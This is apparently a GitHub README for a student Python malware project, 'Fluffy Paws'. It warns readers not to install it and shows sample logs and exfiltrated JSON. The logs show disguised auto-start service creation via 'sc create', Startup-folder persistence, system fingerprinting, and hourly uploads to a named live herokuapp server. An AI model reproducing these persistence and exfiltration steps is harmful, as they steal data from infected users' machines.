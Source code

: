 # Fluffy Paws

A project for Estonian IT College I719-Fundamentals-of-Python class.

---

# Important!
This is a Windows malware it will send your data to a live server
Please don't use it.

---

# Information sent to server

    {"kind"=>"Log", "data"=>["2017-03-15 21:59:18 INFO Goliath On line...", "2017-03-15 21:59:19 DEBUG I'm already in (C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup), skipping", "2017-03-15 21:59:19 DEBUG I'm already in (C:\\Windows\\system32\\config\\systemprofile\\Documents), skipping", "2017-03-15 21:59:19 DEBUG Launching a subprocess: \"sc create SuperAwesomeWindowsHelper\nbinPath= \"C:\\Windows\\system32\\config\\systemprofile\\Documents\\fluffypaws.exe\"\nDisplayName= \"WinHelper\"\nstart= auto\"", "2017-03-15 21:59:49 DEBUG Subprocess return code: None", "2017-03-15 21:59:49 INFO Subprocess finished", "2017-03-15 21:59:49 INFO Started dir info (C:\\Windows\\system32\\config\\systemprofile\\Documents)", "2017-03-15 21:59:51 INFO Finished dir info (C:\\Windows\\system32\\config\\systemprofile\\Documents)", "2017-03-15 21:59:51 DEBUG Rows of data (1)", "2017-03-15 21:59:51 DEBUG Sending data to (https://tranquil-caverns-83807.herokuapp.com/json)", "2017-03-15 21:59:52 DEBUG Json sent, response (200)", "2017-03-15 21:59:52 INFO Sending log to server", "2017-03-15 21:59:52 DEBUG End of loop, will wait for 3600 seconds"]}
    {"file_data"=>{"file_data"=>{"data"=>[{"files"=>[{"name"=>"desktop.ini", "stats"=>[33206, 281474976793944, 136187296, 1, 0, 0, 402, 1467218973, 1467218973, 1467218973]}, {"name"=>"fluffypaws.exe", "stats"=>[33279, 1407374883646712, 136187296, 1, 0, 0, 6514135, 1489607864, 1489607864, 1489607864]}], "folder"=>"C:\\Windows\\system32\\config\\systemprofile\\Documents"}], "kind"=>"User path data"}}, "ip"=>"1.1.1.1", "pc_data"=>{"data"=>{"Name"=>"erik-PC", "System"=>"Windows", "Version"=>"6.1.7601", "Machine"=>"x86", "Release"=>"7", "Processor"=>"x86 Family 6 Model 69 Stepping 1, GenuineIntel"}, "kind"=>"PC info"}}

---

# Instalation
Don't!
For testing purpuses use Windows virtual machine then clone this repo and run fluffypaws[dot]py in console.


To create binary [pyinstaller](https://pyinstaller.readthedocs.io) can be used.
